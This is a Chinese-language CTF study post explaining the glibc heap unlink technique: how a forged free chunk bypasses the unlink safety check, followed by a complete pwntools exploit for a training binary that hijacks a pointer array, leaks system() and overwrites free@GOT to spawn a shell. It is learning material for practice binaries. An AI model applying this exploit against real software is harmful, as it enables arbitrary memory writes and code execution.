


title: unlink

date: 2018-03-28 11:02:32

categories: 
- CTF
- unlink


## 0x00 前言

记录一下对unlink的基本认识 。

我们在利用 unlink 所造成的漏洞时，其实就是对进行 unlink chunk 进行内存布局，然后借助 unlink 操作来达成修改指针的效果。

不懂的地方自己调一下。


**后续在学习 Double free 中， 发现一篇讲 Double free 的文章却比讲 unlink 的文章更好的讲解了 unlink。**

**/(ㄒoㄒ)/~~   。。。。。https://bbs.pediy.com/thread-218395.htm(3基本知识点)      Orz** 

## 0x01 unlink 是什么

unlink 是把一个双向链表中的空闲块拿出来，然后和目前物理相邻的 free chunk 进行合并。(图来源自ctfwiki)



```c
// unlink 过程
p->fd->bk = p->bk
p->bk->fd = p->fd
```

之前的 unlink 没有添加防护 ， 现在要利用unlink需要绕过检测

```c
// unlink 检测  ， 需要满足条件 FD->bk == P  ，  BK->fd == P
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                     
      malloc_printerr (check_action, "corrupted double-linked list", P);
```


### free() 会做如下操作：

1. **检查是否可以向后合并:**

首先需要检查`previous chunk`是否是空闲的（通过当前chunk size部分中的flag最低位去判断），前一个chunk是正在使用的，不满足向后合并的条件。

2. **检查是否可以向前合并:**

**在这里需要检查`next chunk`是否是空闲的(通过下下个chunk的flag的最低位去判断)，在找下下个chunk(这里的下、包括下下都是相对于`chunk first`而言的)的过程中，首先当前chunk+当前size可以引导到下个chunk，然后从下个chunk的开头加上下个chunk的size就可以引导到下下个chunk。但是我们已经把下个chunk的size覆盖为了-4，那么它会认为下个chunk从prev_size开始就是下下个chunk了，既然已经找到了下下个chunk，那就就要去看看size的最低位以确定下个chunk是否在使用，当然这个size是-4，所以它指示下个chunk是空闲的。**


### 绕过 unlin 检测：

 **在汇编中，根本没有结构体的概念，所有的一切都是偏移**

所以 `FD->bk` 之类的 都是地址偏移。


我们可以为伪造一个空闲的chunk块：

```
chunk0                malloc返回的ptr           chunk1        malloc返回的pt
|                     |                        |             |
+-----------+---------+----+----+----+----+----+------+------+----+----+------+
|           |         |fake|fake|fake|fake| D  | fake | fake |    |    |      |
|           |         |prev|size| FD | BK | A  | prev | size&|    |    |      |
| prev_size |size&Flag|size|    |    |    | T  | size | flag |    |    |      |
|           |         |    |    |    |    | A  |      |      |    |    |      |
|           |         |    |    |    |    |    |      |      |    |    |      |
+-----------+---------+----+----+----+----+----+------+------+----+----+------+
                      |--------new_size--------|
```

我们为了欺骗glibc，让它以为堆块零malloc返回的指针(我们后文中简记为p)出就是chunk0指针，所以我们伪造了prev_size和size的部分，然后溢出堆块1，改掉第1个堆块的prev_size,数值应该是上图所示new_size的大小；另外第1块的size部分还要把prev_inuse的flag给去掉。如此就做好了unlink触发之前的准备工作。

所以：

`&chunk0-3*8`  和 `BK->fd ` 都指向 一个地址 (以为汇编中没有指针的概念，都是偏移)

下面就绕过了 unlink检测：

```c
// ptr中保存的地址为chunk0 所在的地址， 后面例子当做会体现
检查是否满足上文所示的限制，由于FD->bk和BK->fd均为*ptr(即p)，由此可以过掉这个限制
p->fd = &ptr - 0x18
p->bk = &ptr - 0x10
```





## 0x04 合并

在删除堆块时，glib会检查一下自己的size部分的 prev_inuse FLAG，发现到到比较早的一个chunk是空闲的(实际是我们伪造的)，glibc希望将即将出现的两个空闲块合并。glibc会先将 free 的 chunk 从它的Binlist中解引用，所以触发unlink(p)。

```c
//unlink 过程
p->fd->bk = p->bk
p->bk->fd = p->fd
```

`p->fd->bk` 和 `p->bk->fd` 都指向同一个指针，只需要关注 第二次赋值。

 ```c
// chunk布局
p->fd = &addr - 0x18
p->bk = &except value - 0x10  
//addr就表示任意一个你想控制的可写地址
//except value 是你想在addr中写入的值·
 ```

这样我们就可以覆盖三个单位的“A” 向 目标地址写数据。 

上面写的可能比较模糊 ， 下面我会详细分析 Exp 的构造和利用过程


## 0x04 利用

[文件下载](heap_pwn_study-master.zip)  (下载链接中删掉一个unlink) 

**利用条件：**

1. 需要一个指向 chunk list 的指针， 并且可以读写（BSS段）。
2. 有堆溢出漏洞

```python
from pwn import *
#context.log_level = 'debug'
p = process('./heap')

#指向二进制文件中的buf，buf里面保存着分配的chunk的地址
chunk_list = 0x8049d60

free_got = 0x8049ce8

flag = 0
def leak(addr):
    #"A"*0xc 覆盖减到的三个单位， 
    #p32(chunk_list-0xc) 覆盖 buf[0] ， 使其重新指向 chunk_list-0xc
    data = "A" * 0xc + p32(chunk_list-0xc) + p32(addr)
    global flag
    if flag == 0:
        set_chunk(0, data)
        flag = 1
    else:
        set_chunk2(0, data)
    res = ""
    p.recvuntil('5.Exit\n')
    res = print_chunk(1)
    print("leaking: %#x ---> %s" % (addr, res[0:4].encode('hex')))
    return res[0:4]

def add_chunk(len):
    print p.recvuntil('\n')
    p.sendline('1')
    print p.recvuntil('add:')
    p.sendline(str(len))

def set_chunk(index,data):
    p.recvuntil('5.Exit\n')
    p.sendline('2')
    p.recvuntil('Set chunk index:')
    p.sendline(str(index))
    p.recvuntil('Set chunk data:')
    p.sendline(data)

def set_chunk2(index, data):
    p.sendline('2')
    p.recvuntil('Set chunk index:')
    p.sendline(str(index))
    p.recvuntil('Set chunk data:')
    p.sendline(data)

def del_chunk(index):
    p.recvuntil('\n')
    p.sendline('3')
    p.recvuntil('Delete chunk index:')
    p.sendline(str(index))

def print_chunk(index):
    p.sendline('4')
    p.recvuntil('Print chunk index:')
    p.sendline(str(index))
    res = p.recvuntil('5.Exit\n')
    return res


raw_input('add_chunk'+'\n')
add_chunk(128)  #0
add_chunk(128)  #1
add_chunk(128)  #2
add_chunk(128)  #3
set_chunk(3, '/bin/sh')


#fake_chunk
payload = ""
payload += p32(0) + p32(0x80) + p32(chunk_list-0xc) + p32(chunk_list-0x8)
payload += "A"*(0x80-4*4)
#2nd chunk 
payload += p32(0x80) + p32(0x88)

set_chunk(0,payload)

#get the pointer
#改了buf 的指针。
# free 前
#0x8049d60:	0x08657008	0x08657090	0x08657118	0x086571a0
del_chunk(1) 
# free 后
#0x8049d60:	0x08049d54	0x08657090	0x08657118	0x086571a0
#现在buf[0] 指向地址为 &buf[] - 3 ， 可以改写 chunk list 指针 (buf数组)
# 伪造的chunk 中的 fd/bk，为fd/bk所在的chunk 的地址 - 3/2*size_sz

#p32(0x8048420) which addr is ok 
#p32(chunk_list-0xc) 覆盖 buf[0] ， 使其重新指向 chunk_list-0xc
# 没有下面这行，也可以getshell ， 泄露的时候重新覆盖了
set_chunk(0, 'A' * 12 + p32(chunk_list-0xc) + p32(0x8048420))  

raw_input('leak')
#leak system_addr
pwn_elf = ELF('./heap')
d = DynELF(leak, elf=pwn_elf)
sys_addr = d.lookup('system', 'libc')
print("system addr: %#x" % sys_addr)

raw_input('edit free@got')
#使用buf[0] 写入， 使buf[1] 的地址为 free_got地址
data = "A" * 12 + p32(chunk_list-0xc) + p32(free_got)
set_chunk2('0', data)

#buf[1] 的地址为 free_got, 使用 sys_addr 代替 free_got
set_chunk2('1', p32(sys_addr))

# 再次free 就是 system ， getshell
del_chunk('3')
p.interactive()
p.close()
```


## 0x05 参考：

http://wonderkun.cc/index.html/?p=651

http://drops.xmd5.com/static/drops/tips-7326.html

https://bbs.pediy.com/thread-224836.htm

https://paper.seebug.org/255/

https://ctf-wiki.github.io/ctf-wiki/pwn/heap/unlink/#_5

https://o0xmuhe.github.io/2016/02/15/heap-vuln-unlink/

http://yunnigu.dropsec.xyz/2017/04/05/%E5%A0%86%E6%BA%A2%E5%87%BA%E4%B9%8Bunlink%E7%9A%84%E5%88%A9%E7%94%A8/


 